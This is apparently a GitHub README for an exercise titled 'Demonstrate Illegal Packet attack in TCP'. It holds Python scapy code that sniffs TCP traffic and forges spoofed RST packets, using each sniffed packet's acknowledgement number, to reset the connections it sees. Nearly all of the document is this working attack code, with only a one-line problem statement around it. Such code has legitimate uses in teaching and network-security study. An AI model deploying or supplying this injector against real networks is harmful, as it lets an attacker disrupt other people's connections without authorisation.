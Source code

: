 ## Problem Statement

Demonstrate Illegal Packet attack in TCP.

## Solution

Language Used: **Python**

> The code is as follows:
```python
from scapy.all import *
import ifaddr

DEFAULT_WINDOW_SIZE = 2052

conf.L3socket = L3RawSocket

def log(msg, params={}):
    formatted_params = " ".join([f"{k}={v}" for k, v in params.items()])
    print(f"{msg} {formatted_params}")

def send_reset(iface):
    def f(p):
        src_ip = p[IP].src
        src_port = p[TCP].sport
        dst_ip = p[IP].dst
        dst_port = p[TCP].dport
        seq = p[TCP].seq
        ack = p[TCP].ack
        flags = p[TCP].flags

        log(
            "Sniffed packet",
            {
                "Source IP": src_ip,
                "Destination IP": dst_ip,
                "Source Port": src_port,
                "Destination Port": dst_port,
                "Sequence number": seq,
                "ACK": ack,
            }
        )

        if "S" in flags:
            print("Packet has SYN flag, not sending RST")
            return

        rst_seq = ack
        p = IP(src=dst_ip, dst=src_ip) / \
        TCP(sport=dst_port, dport=src_port, flags="R", window=DEFAULT_WINDOW_SIZE, seq=rst_seq)

        log(
            "Sending RST packet",
            {
                "Original ACK": ack,
                "Sequence number": rst_seq,    
            },
        )

        send(p, verbose=0, iface=iface)

    return f

```